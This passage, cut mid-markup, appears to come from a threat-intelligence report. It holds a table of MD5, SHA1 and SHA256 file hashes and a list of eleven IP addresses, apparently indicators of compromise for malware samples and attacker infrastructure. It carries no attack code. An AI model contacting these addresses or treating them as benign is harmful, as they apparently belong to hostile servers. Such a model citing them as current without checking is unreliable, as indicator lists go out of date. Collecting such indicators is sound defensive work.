rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">9AF03BFAFEDD0A957A5C936FBBC4FBB5897F6252</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">DD63DD735DD6DC8B3CB74C5A24CC13138414B3C41947618C3DD9408ED430BF79</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">8A3E1176CB160FB42357FA3F46F0CBDE</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">E77427EAFC1AD985D83A37F68492318AFFAF466F</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">4ABACEF49032666C0D0B4A006368386BDC6C0367F6C5E21B022B650FB8DABDBC</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">8D92E79B7940F0AC5B01BBB77737CA6C</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">05168A7A2816DC792D80F0A7C65B102B38E93BF1</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">1C39DBF66A362DF572AF7AD64164CC7D70A8875DB68A710979D243760D8C027B</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">95EAA3FA47A609CEEFA24E8C7787BD99</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">46EE0AAC6D64415146792C40A7F94989B5510107</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">E5F9A505082501B32D442A3FA6A9FB40A48B7DA91A5A0EFC5677BED5401E0C2B</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">96EE8CC2EDC8227A640CEF77D4A24E83</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">F836182A8A93DB7985CDD67A5C1F5DBBF90BBE2A</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">2A397594A3B009DF342886A3480264A8773971559C79C8F95B1319EAE77C55D6</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">AAF34C27EDFC3531CF1CF2F2E9A9C45B</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">069A400624F2FCF69BCA8A43FD52C05E95758927</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">DD2C66661D94F007D87754DCBC1ACE9F228785676632A39FEF2CE0E26D54E206</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">BA32F4EEF7DE6BAE9507A63BDE1A43AA</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">2D877399E481A6EBDED108631B55FF049C3316F4</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">52BD9E57F7DB2716D2EC570BC9A5DE9BA96BC620EDB3AC9469B5B131B004A030</span></span></section></td></tr></tbody></table>  
  
IP地址:  

```
116.203.104.203
130.61.64.122
161.97.219.84
130.61.69.123
185.84.81.194
54.36.111.116
192.3.165.37
162.243.19.47
63.231.92.27
80.152.203.134
42.112.26.36
```

  
